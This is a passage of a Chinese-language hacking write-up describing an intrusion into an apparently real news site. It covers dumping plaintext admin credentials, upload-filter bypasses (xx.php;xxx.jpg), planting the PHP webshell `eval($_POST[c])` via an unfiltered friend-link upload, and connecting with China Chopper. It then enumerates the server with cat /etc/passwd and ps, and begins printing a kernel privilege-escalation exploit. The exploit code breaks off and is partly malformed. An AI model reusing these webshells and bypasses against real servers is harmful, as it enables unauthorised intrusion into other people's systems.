仔细查看了下，并没有和管理员入口点相对应的用户名和密码列数据。继续翻找表格数据，往下看到一个user表格，查看它的列数据，如图14所示：

很明显，我们这里只搜索下user和key这两个列的数据，点击get data，获取用户名和密码，显示如图15。

很快，几秒钟过后就直接查找到用户名和密码。起初还觉管理员会多少有点安全意识，至少会将管理员密码通过MD5或者Base64加密处理，谁知道直接给出明文密码。那么我们就直接使用admin登录到管理员入口后台系统，显示如图16。

系统管理的模块还是蛮多，不多说了。首先找上传点，点击国际新闻，打开右上角的添加新闻链接，在添加大图片的选项中点击浏览，选择任意一个PHP大马；在添加小图片的选项中，添加一个PHP小马，当然这里是xx.php;xxx.jpg的格式文件。这个就看服务器配置是否使用IIS6.0，可以利用其解析漏洞来上传大马，直接访问有可能会得到shell地址。如图17、图18所示：

结果显示该类型文件不允许上传，如图19。

往下来到内容栏，点击图片上传处，在上传图片窗口中点击浏览，找到准备好的PHP一句话，文件名为xx.php;xxx.jpg的PHP小马，如图20。

点击查看代码，找到上传后的文件地址，直接访问，显示如图21、图22。

选择查看基本环境，点击提交，显示出一句话代码：

```php
<?php eval($_POST[c]) ?>
```

打开其他操作，如读取目录，输入ls，并无回显。看了下上传后的地址后缀为jpg，这里就体现了PHP一句话并未解析成功，所以不能连接客户端进行其他操作。

来查看下系统管理有哪些基本设置。点击基本设置，发现有一个网站logo图片上传地址，找一个文件名为xx.php的小马上传上去，显示如图23。

上传完后，查看网站基础设置的详细信息，看到上传后的图片还是显示红色叉叉，右键查看上传完的地址，如图24：

这里的url只显示到upfile目录，并没有显示具体文件。在浏览器中打开该地址，发现并没有访问权限，显示你没有权限访问该目录，也就不奇怪为什么这个logo图标是红色叉叉了。找到网站的用户数据信息，如图25：

这里显示的用户信息，惊奇的是用户密码全部统一，都是使用同一个密码。这些用户是不是太有默契了。不禁要怀疑，倘若遇见社工牛人，真的只要猜中一个用户密码，其他用户和密码全部挂。正所谓，前面一个站着中枪，后面一排躺着都跟着中弹。点击修改，打开随意一个用户的数据信息窗口，发现并没有可以进行上传的地方，如图26、图27。

#### 三、柳暗花明

上传xx.php;xxx.jpg格式的PHP马和一句话都不能拿到shell地址，网站管理的基本设置也是简单的详细信息更改，没有发现备份恢复数据的功能页面。再次遇到难题，休息片刻，调整下思路。无意中打开“用户权限管理-友情链接”处，显示了友情链接管理窗口，添加一个新的友情链接，如图28。

这次直接找个一句话，上传文件名为xx.php的一句话PHP马，点击提交后，右击查看属性，找到上传的url地址，如图29。

这次应该是没问题了，由于链接图片并未对上传参数进行过滤，直接显示上传的地址为PHP网页。因为我们这里上传的一句话代码如图30所示：

立马拿出中国菜刀来连接一句话，输入password:c，显示如图31、图32的窗口。

连接一句话成功，可以浏览站点目录的相应文件夹，随意找一个文件夹，上传PHP大马，如图33所示。

显示上传文件成功，输入上传后的shell地址，访问显示如图34的窗口，输入密码直接看到webshell。

可以看到服务器配置就是最初检测的Linux操作系统，点击webshell，赶紧来看下当前的用户权限吧，显示如图。

## 一个人的战争

35;


图35

Uid=647,gid=600，显然不是root权限。

输入`ps -aux`，查看Linux所正在运行的进程。如图36所示：


图36


图37


图38

输入`cat /etc/passwd`查看是否有其他的系统用户，显示有几十条用户之多，而且往下可以看到很多网站站点的web物理路径。如图37所示；

划横线处就是目标站点的物理路径，尝试跨目录访问其他站点的目录，输入`cd /www/users/www.xxxxx.com/`，然后run，回显命令为空。如图38、图39：


图39

点击phpinfo，在显示的页面中，查看下MySQL的安装配置信息，如图40所示：


图40

phpinfo中显示了MySQL安装版本、路径，及库的相应信息。

输入：`ls -al /var/lib/mysql/`，发现MySQL目录的权限只有root才可以使用。

#### 四、激流勇进

既然是Linux的系统，查看下系统的内核版本，输入`uname -r`，回显中显示版本如图41：


图41

内核为2.6.18-274.3.1.el5，再详情看下release的信息，输入：`lsb_release -a`，回显如图42：

果然是CentOS 5.7，内核为2.6.18的操作系统。

直接上某知名论坛，search相应版本的exp，如图43：


图42


图43

这里和大家分享下这个溢出EXP的代码：

```c
#define __GNU_SOURCE
#include <stdio.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <malloc.h>
#include <limits.h>
#include <signal.h>
#include <unistd.h>
#include <sys/uio.h>
#include <sys/mman.h>
#include <asm/page.h>
#define __KERNEL__
#include <asm/unistd.h>

#define PIPE_BUFFERS 16
#define PG_compound 0x14
#define uint unsigned int
#define static_inline static inline __attribute__((always_inline))
#define STACK(X) (X + sizeof(X) - 40)

struct page {
    unsigned long flags;
    int count;
    int mapcount;
    unsigned long private;
    void *mapping;
    unsigned long index;
    struct { long next, prev; } lru;
};

void exit_code()
char exit_stack[1024 * 1024];

void die(char *msg, int err)
{
    printf(err ? "%s: %s\n" : "%s\n", msg, strerror(err));
    fflush(stdout);
}
```